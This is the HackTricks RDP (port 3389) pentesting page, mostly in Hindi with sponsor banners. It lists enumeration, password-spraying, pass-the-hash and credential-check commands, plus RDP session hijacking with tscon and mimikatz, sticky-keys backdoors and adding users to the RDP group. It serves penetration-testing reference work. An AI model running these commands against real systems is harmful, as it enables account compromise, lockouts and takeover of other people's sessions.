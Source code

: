 # 3389 - Pentesting RDP

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**कमजोरी मूल्यांकन और पेनिट्रेशन टेस्टिंग के लिए तुरंत उपलब्ध सेटअप**। कहीं से भी 20+ उपकरणों और सुविधाओं के साथ एक पूर्ण पेंटेस्ट चलाएँ जो पुनः खोज से रिपोर्टिंग तक जाते हैं। हम पेंटेस्टर्स का स्थान नहीं लेते - हम उन्हें गहराई से खुदाई करने, शेल पॉप करने और मज़े करने के लिए कुछ समय वापस देने के लिए कस्टम उपकरण, पहचान और शोषण मॉड्यूल विकसित करते हैं।

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Basic Information

Microsoft द्वारा विकसित, **Remote Desktop Protocol** (**RDP**) एक ग्राफिकल इंटरफेस कनेक्शन को नेटवर्क के माध्यम से कंप्यूटरों के बीच सक्षम करने के लिए डिज़ाइन किया गया है। ऐसे कनेक्शन को स्थापित करने के लिए, उपयोगकर्ता द्वारा **RDP** क्लाइंट सॉफ़्टवेयर का उपयोग किया जाता है, और साथ ही, दूरस्थ कंप्यूटर को **RDP** सर्वर सॉफ़्टवेयर चलाने की आवश्यकता होती है। यह सेटअप दूरस्थ कंप्यूटर के डेस्कटॉप वातावरण के नियंत्रण और पहुंच की अनुमति देता है, मूल रूप से इसके इंटरफेस को उपयोगकर्ता के स्थानीय उपकरण पर लाता है।

**डिफ़ॉल्ट पोर्ट:** 3389
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
## Enumeration

### Automatic

{% code overflow="wrap" %}
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
{% endcode %}

यह उपलब्ध एन्क्रिप्शन और DoS कमजोरियों की जांच करता है (सेवा को DoS का कारण बने बिना) और NTLM Windows जानकारी (संस्करण) प्राप्त करता है।

### [Brute force](../generic-methodologies-and-resources/brute-force.md#rdp)

**सावधान रहें, आप खातों को लॉक कर सकते हैं**

### **Password Spraying**

**सावधान रहें, आप खातों को लॉक कर सकते हैं**
```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### ज्ञात क्रेडेंशियल्स/हैश के साथ कनेक्ट करें
```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```
### RDP सेवाओं के खिलाफ ज्ञात क्रेडेंशियल्स की जांच करें

rdp\_check.py from impacket आपको यह जांचने की अनुमति देता है कि क्या कुछ क्रेडेंशियल्स RDP सेवा के लिए मान्य हैं:
```bash
rdp_check <domain>/<name>:<password>@<IP>
```
<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**कमजोरी मूल्यांकन और पेनटेस्टिंग के लिए तुरंत उपलब्ध सेटअप**। 20+ उपकरणों और सुविधाओं के साथ कहीं से भी पूर्ण पेंटेस्ट चलाएँ जो पुनः खोज से रिपोर्टिंग तक जाते हैं। हम पेंटेस्टर्स का स्थान नहीं लेते - हम उन्हें गहराई से खुदाई करने, शेल पॉप करने और मज़े करने के लिए कुछ समय वापस देने के लिए कस्टम उपकरण, पहचान और शोषण मॉड्यूल विकसित करते हैं।

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **हमले**

### सत्र चुराना

**SYSTEM अनुमतियों** के साथ आप किसी भी **उपयोगकर्ता द्वारा खोले गए RDP सत्र** तक पहुँच सकते हैं बिना मालिक का पासवर्ड जाने।

**खुले सत्र प्राप्त करें:**
```
query user
```
**चुने गए सत्र तक पहुँच**
```bash
tscon <ID> /dest:<SESSIONNAME>
```
अब आप चयनित RDP सत्र के अंदर होंगे और आपको केवल Windows उपकरणों और सुविधाओं का उपयोग करके एक उपयोगकर्ता का अनुकरण करना होगा।

**महत्वपूर्ण**: जब आप एक सक्रिय RDP सत्र तक पहुँचते हैं, तो आप उस उपयोगकर्ता को बाहर कर देंगे जो इसका उपयोग कर रहा था।

आप प्रक्रिया को डंप करके पासवर्ड प्राप्त कर सकते हैं, लेकिन यह विधि बहुत तेज़ है और आपको उपयोगकर्ता के वर्चुअल डेस्कटॉप के साथ इंटरैक्ट करने की अनुमति देती है (पासवर्ड नोटपैड में बिना डिस्क पर सेव किए, अन्य मशीनों में खोले गए अन्य RDP सत्र...)

#### **Mimikatz**

आप इसे करने के लिए mimikatz का भी उपयोग कर सकते हैं:
```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
### Sticky-keys & Utilman

इस तकनीक को **stickykeys** या **utilman** के साथ मिलाकर, आप किसी भी समय एक प्रशासनिक CMD और किसी भी RDP सत्र तक पहुँच सकते हैं।

आप पहले से ही इन तकनीकों में से एक के साथ बैकडोर किए गए RDPs को खोज सकते हैं: [https://github.com/linuz/Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### RDP Process Injection

यदि किसी अन्य डोमेन से या **बेहतर विशेषाधिकार** के साथ कोई RDP के माध्यम से उस PC में लॉगिन करता है जहाँ **आप एक Admin** हैं, तो आप उसके **RDP सत्र प्रक्रिया** में अपना बीकन **inject** कर सकते हैं और उसके रूप में कार्य कर सकते हैं:

{% content-ref url="../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md" %}
[rdp-sessions-abuse.md](../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md)
{% endcontent-ref %}

### Adding User to RDP group
```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```
## Automatic Tools

* [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn** एक पोस्ट-एक्सप्लॉइटेशन फ्रेमवर्क है जो पॉवरशेल में बनाया गया है, जिसे मुख्य रूप से Microsoft Windows कंप्यूटर पर **Shadow** हमले को स्वचालित करने के लिए डिज़ाइन किया गया है। यह भेद्यता (जिसे Microsoft द्वारा एक विशेषता के रूप में सूचीबद्ध किया गया है) एक दूरस्थ हमलावर को **बिना उसकी सहमति के अपने शिकार के डेस्कटॉप को देखने** की अनुमति देती है, और यहां तक कि इसे मांग पर नियंत्रित करने की भी, ऑपरेटिंग सिस्टम के अपने मूल उपकरणों का उपयोग करके।

* [**EvilRDP**](https://github.com/skelsec/evilrdp)
* कमांड लाइन से स्वचालित तरीके से माउस और कीबोर्ड को नियंत्रित करें
* कमांड लाइन से स्वचालित तरीके से क्लिपबोर्ड को नियंत्रित करें
* क्लाइंट से एक SOCKS प्रॉक्सी उत्पन्न करें जो RDP के माध्यम से लक्षित नेटवर्क संचार को चैनल करता है
* लक्षित पर फ़ाइलें अपलोड किए बिना मनचाहे SHELL और PowerShell कमांड निष्पादित करें
* लक्षित पर फ़ाइल ट्रांसफर बंद होने पर भी लक्षित से फ़ाइलें अपलोड और डाउनलोड करें

## HackTricks Automatic Commands
```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for RDP
Note: |
Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

https://book.hacktricks.xyz/pentesting/pentesting-rdp

Entry_2:
Name: Nmap
Description: Nmap with RDP Scripts
Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```
<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**कमजोरी मूल्यांकन और पेनटेस्टिंग के लिए तुरंत उपलब्ध सेटअप**। 20+ उपकरणों और सुविधाओं के साथ कहीं से भी एक पूर्ण पेंटेस्ट चलाएँ जो पुनः खोज से रिपोर्टिंग तक जाती हैं। हम पेंटेस्टर्स का स्थान नहीं लेते - हम उन्हें गहराई से खुदाई करने, शेल पॉप करने और मज़े करने के लिए कुछ समय वापस देने के लिए कस्टम उपकरण, पहचान और शोषण मॉड्यूल विकसित करते हैं।

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे साथ जुड़ें** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
